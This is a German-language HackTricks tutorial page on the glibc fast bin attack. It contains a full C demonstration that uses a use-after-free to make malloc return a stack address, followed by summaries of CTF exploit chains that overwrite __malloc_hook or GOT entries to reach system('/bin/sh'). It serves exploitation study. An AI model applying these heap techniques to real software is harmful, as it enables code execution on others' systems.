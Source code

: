 # Fast Bin Attack

{{#include ../../banners/hacktricks-training.md}}

## Grundlegende Informationen

Für weitere Informationen darüber, was ein Fast Bin ist, siehe diese Seite:

{{#ref}}
bins-and-memory-allocations.md
{{#endref}}

Da der Fast Bin eine einfach verkettete Liste ist, gibt es viel weniger Schutzmaßnahmen als in anderen Bins, und es reicht aus, **eine Adresse in einem freigegebenen Fast Bin** Chunk zu ändern, um **später einen Chunk an einer beliebigen Speicheradresse zuzuweisen**.

Zusammenfassend:
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
Sie finden ein vollständiges Beispiel in einem sehr gut erklärten Code von [https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html):
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
puts("Today we will be discussing a fastbin attack.");
puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

puts("Let's start, we will allocate three chunks of size 0x30\n");
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);


printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

int stackVar = 0x55;

printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

printf("Chunk 0: %s\n", (char *)ptr0);
printf("Chunk 1: %s\n", (char *)ptr1);
printf("Chunk 2: %s\n\n", (char *)ptr2);

printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

free(ptr0);
free(ptr1);
free(ptr2);

printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

*ptr1 = (unsigned long)((char *)&stackVar);

printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(0x30);
ptr4 = malloc(0x30);
ptr5 = malloc(0x30);

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```
> [!CAUTION]
> Wenn es möglich ist, den Wert der globalen Variable **`global_max_fast`** mit einer großen Zahl zu überschreiben, ermöglicht dies die Erstellung von Fast-Bin-Chunks größerer Größen, was potenziell Fast-Bin-Angriffe in Szenarien ermöglicht, in denen dies zuvor nicht möglich war. Diese Situation ist nützlich im Kontext des [large bin attack](large-bin-attack.md) und [unsorted bin attack](unsorted-bin-attack.md).

## Beispiele

- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html)**:**
- Es ist möglich, Chunks zuzuweisen, sie freizugeben, ihren Inhalt zu lesen und sie (mit einer Overflow-Sicherheitsanfälligkeit) zu füllen.
- **Chunk konsolidieren für Infoleak**: Die Technik besteht im Wesentlichen darin, den Overflow auszunutzen, um eine gefälschte `prev_size` zu erstellen, sodass ein vorheriger Chunk in einen größeren gelegt wird. Wenn der größere Chunk, der einen anderen Chunk enthält, zugewiesen wird, ist es möglich, seine Daten auszudrucken und eine Adresse zu libc (`main_arena+88`) zu leaken.
- **Malloc-Hook überschreiben**: Dazu und durch Ausnutzung der vorherigen Überlappungssituation war es möglich, 2 Chunks zu haben, die auf denselben Speicher zeigten. Daher war es möglich, beide freizugeben (einen anderen Chunk dazwischen freizugeben, um Schutzmaßnahmen zu vermeiden), sodass derselbe Chunk 2 Mal im Fast Bin vorhanden war. Dann war es möglich, ihn erneut zuzuweisen, die Adresse des nächsten Chunks zu überschreiben, um ein wenig vor `__malloc_hook` zu zeigen (damit es auf eine Ganzzahl zeigt, die malloc für eine freie Größe hält - ein weiterer Bypass), ihn erneut zuzuweisen und dann einen anderen Chunk zuzuweisen, der eine Adresse zu malloc-Hooks erhält.\
Schließlich wurde ein **one gadget** dort geschrieben.
- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html)**:**
- Es gibt einen Heap-Overflow und Use-after-free sowie Double-Free, da es möglich ist, die Zeiger wiederzuverwenden und erneut freizugeben, wenn ein Chunk freigegeben wird.
- **Libc-Infoleak**: Einfach einige Chunks freigeben und sie erhalten einen Zeiger auf einen Teil des Standorts der Hauptarena. Da Sie freigegebene Zeiger wiederverwenden können, lesen Sie einfach diese Adresse.
- **Fast Bin Angriff**: Alle Zeiger auf die Zuweisungen werden in einem Array gespeichert, sodass wir ein paar Fast-Bin-Chunks freigeben und im letzten den Zeiger überschreiben können, um ein wenig vor diesem Array von Zeigern zu zeigen. Dann weisen wir ein paar Chunks mit derselben Größe zu und erhalten zuerst den legitimen und dann den gefälschten, der das Array von Zeigern enthält. Wir können jetzt diese Zuweisungszeiger überschreiben, um die GOT-Adresse von `free` auf `system` zu zeigen und dann `"/bin/sh"` in Chunk 1 zu schreiben, um dann `free(chunk1)` aufzurufen, was stattdessen `system("/bin/sh")` ausführt.
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html)
- Ein weiteres Beispiel für die Ausnutzung eines ein Byte großen Overflows zur Konsolidierung von Chunks im unsortierten Bin und um einen libc-Infoleak zu erhalten und dann einen Fast-Bin-Angriff durchzuführen, um den malloc-Hook mit einer One-Gadget-Adresse zu überschreiben.
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html)
- Nach einem Infoleak, der den unsortierten Bin mit einem UAF ausnutzt, um eine libc-Adresse und eine PIE-Adresse zu leaken, verwendete der Exploit dieses CTF einen Fast-Bin-Angriff, um einen Chunk an einem Ort zuzuweisen, an dem die Zeiger auf kontrollierte Chunks lagen, sodass es möglich war, bestimmte Zeiger zu überschreiben, um ein One-Gadget in der GOT zu schreiben.
- Sie können einen Fast Bin-Angriff finden, der durch einen unsortierten Bin-Angriff ausgenutzt wird:
- Beachten Sie, dass es üblich ist, vor der Durchführung von Fast-Bin-Angriffen die Freilisten auszunutzen, um libc/Heap-Adressen zu leaken (wenn nötig).
- [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
- Wir können nur Chunks mit einer Größe größer als `0x100` zuweisen.
- Überschreiben Sie `global_max_fast` mit einem Unsorted Bin-Angriff (funktioniert 1/16 Mal aufgrund von ASLR, da wir 12 Bits ändern müssen, aber 16 Bits ändern müssen).
- Fast Bin-Angriff zur Modifikation eines globalen Arrays von Chunks. Dies bietet eine willkürliche Lese-/Schreibprimitive, die es ermöglicht, die GOT zu modifizieren und einige Funktionen auf `system` zu zeigen.

{{#ref}}
unsorted-bin-attack.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
